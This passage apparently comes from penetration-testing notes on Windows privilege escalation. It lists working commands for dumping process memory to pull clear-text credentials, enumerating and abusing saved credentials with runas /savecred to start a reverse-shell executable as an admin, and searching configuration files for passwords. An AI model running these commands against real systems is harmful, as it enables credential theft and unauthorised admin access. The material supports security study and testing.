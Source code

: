    ```
Procdump from Sysinternals can be used to create a memory dump of a running process. Try to dump the memory and read the credentials from services like FTP, which have the credentials in clear text in memory.

```
procdump.exe -accepteula -ma <proc_name_tasklist>
```

### Saved Credentials

The runas command in Windows allows users to execute commands with the permissions of other users. This normally necessitates knowing the password of the other user. Users can save their credentials to the system in Windows, and these saved credentials can be exploited to get around this requirement.

#### Saved Credentials Privilege Escalation Methodology

1.  Use winPEAS to check for saved credentials:

    ```
    .\winPEASany.exe quiet cmd windowscreds
    ```
2. It may have some credentials for a user that exist.
3.  We can verify this manually using the following command:

    ```
    cmdkey /list
    ```
4.  If the saved credentials aren’t present, run the following script to refresh the credential:

    ```
    C:\Dir\savecred.bat
    ```
5.  We can use the saved credential to run any command as the admin user. Start a listener On your host and run the reverse shell executable:

    ```
    runas /savecred /user:valid_username C:\Users\Public\reverse.exe\
    ```

### Configuration Files

Some administrators will leave configurations files on the system with passwords in them. This may be seen in the Unattend.xml file. It enables Windows systems to be set up in a largely automated manner.

#### Enumerating Configuration Files

Recursively search for files in the current directory with “pass” in the name, or ending in “.config”:

```
dir /s *pass* == *.config
```

Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:

```
findstr /si password *.xml *.ini *.txt
```

#### Configuration Files Privilege Escalation Methodology

```